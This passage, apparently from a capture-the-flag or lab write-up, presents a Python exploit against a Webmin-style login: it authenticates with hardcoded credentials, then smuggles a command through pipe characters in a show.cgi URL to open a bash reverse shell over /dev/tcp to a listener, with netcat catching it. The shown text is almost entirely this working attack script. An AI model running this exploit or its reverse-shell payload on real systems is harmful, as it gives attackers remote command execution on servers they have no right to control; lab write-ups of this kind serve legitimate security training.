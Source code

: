 Using Bash to get rev shell

{% code overflow="wrap" lineNumbers="true" %}
````python
```python
import requests
import string
import secrets

data = {'page' : "/", 'user' : "user1", 'pass' : "1user"}
url = "http://10.10.69.153/session_login.cgi"

# POST Request.
r = requests.post(url, data=data, cookies={"testing":"1"}, verify=False, 
allow_redirects=False)

if r.status_code == 302 and r.cookies["sid"] != None:
  print("[+] Login Successful, executing payload..")
else:
  print("[-] Failed to login !")

sid = r.cookies["sid"]

'''
other ways to extract the cookie.
c = r.cookies["sid"]
s = r.cookies['Set-Cookie'].split('=')[1].split(";")[0].strip()
'''

# random invalid char generator function.
def rand():
  alphaNum = string.ascii_letters + string.digits
  randChar = ''.join(secrets.choice(alphaNum) for i in range(5))
  return randChar

def payload():
  ## Attacker IP and port to listen on.
  payload = f"bash -c 'exec bash -i &>/dev/tcp/10.18.88.214/5555<&1'"
  return payload

# exploit url.
exp = f"http://10.10.69.153/file/show.cgi/bin/{rand()}|{payload()}|"

# delivering payload.
req = requests.post(exp, cookies={"sid":sid}, verify=False, allow_redirects=False)
```
````
{% endcode %}

We listen with netcat on port 5555, and execute the script, then we immediately get shell :)

## 2nd Final POC Python script
